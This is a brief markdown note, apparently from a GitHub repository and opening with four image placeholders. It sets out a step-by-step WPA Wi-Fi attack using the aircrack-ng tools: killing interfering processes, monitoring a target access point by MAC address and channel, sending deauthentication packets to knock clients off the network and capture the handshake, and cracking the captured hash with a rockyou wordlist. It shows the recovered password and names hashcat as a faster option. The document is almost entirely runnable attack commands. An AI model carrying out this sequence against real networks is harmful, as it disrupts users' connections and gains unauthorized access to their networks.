




`sudo airmon-ng check kill`  
So as to kill processes that might disturb network monitoring.  

`sudo airodump-ng wlan0mon`
network monitoring with `wlan0mon`  NIC  (network interface card)  

`sudo airodump-ng --bssid BA:18:69:CC:1E:61 -c 11 --write WPAcrack wlan0mon`  
`--bssid` Target's MAC, `-c` channel, `--write` output name (WPA hash for cracking later)  

`sudo aireplay-ng --deauth 30 -a BA:18:69:CC:1E:61 wlan0mon`  
`--deauth 30` We're sending 30 packets so as to break connection for a while  
Because of this we'll be able to capture handshake (and password hash for later cracking)  

`sudo aircrack-ng WPAcrack-01.cap -w rockyou_50.txt`  password hash cracking

Password: 123456qwerty  
- might be faster to use `hashcat` instead of `aircrack-ng` wrapper

`dhclient eth0`  after wifi hacking NIC might have some problems. This command might help
